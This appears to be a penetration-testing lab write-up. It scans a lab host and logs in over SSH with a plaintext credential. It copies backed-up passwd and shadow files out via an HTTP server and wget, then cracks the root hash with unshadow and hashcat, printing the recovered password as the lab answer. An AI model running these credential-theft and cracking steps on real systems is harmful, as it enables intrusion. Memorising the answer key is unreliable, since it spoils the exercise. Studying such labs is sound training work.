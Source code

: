 # Passwd, Shadow & Opasswd

### Examine the target using the credentials from the user Will and find out the password of the "root" user. Then, submit the password as the answer.

```bash
nmap -sC -sV 10.129.40.131
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-20 03:44 EST
Nmap scan report for 10.129.40.131 (10.129.40.131)
Host is up (0.27s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

lets login ssh as will

```bash
#creds from before will:TUqr7QfLTLhruhVbCP
ssh will@10.129.40.131 
cd .backups
ls
passwd.bak  shadow.bak
# now we copy this into our kali
python3 -m http.server 8080
#kali
wget http://10.129.40.131:8080/passwd.bak
wget http://10.129.40.131:8080/shadow.bak  
```

now we unshadow this to get the hash

```bash
#start with passwd then shadow
unshadow passwd.bak shadow.bak > unshadow
hashcat -m 1800 -a 0 unshadow mut_password.list -o cracked.txt
cat cracked.txt                                                      
$6$XePuRx/4eO0WuuPS$a0t5vIuIrBDFx1LyxAozOu.cVaww01u.6dSvct8AYVVI6ClJmY8ZZuPDP7IoXRJhYz4U8.DJUlilUw2EfqhXg.:J0rd@n5
```

```
J0rd@n5
```
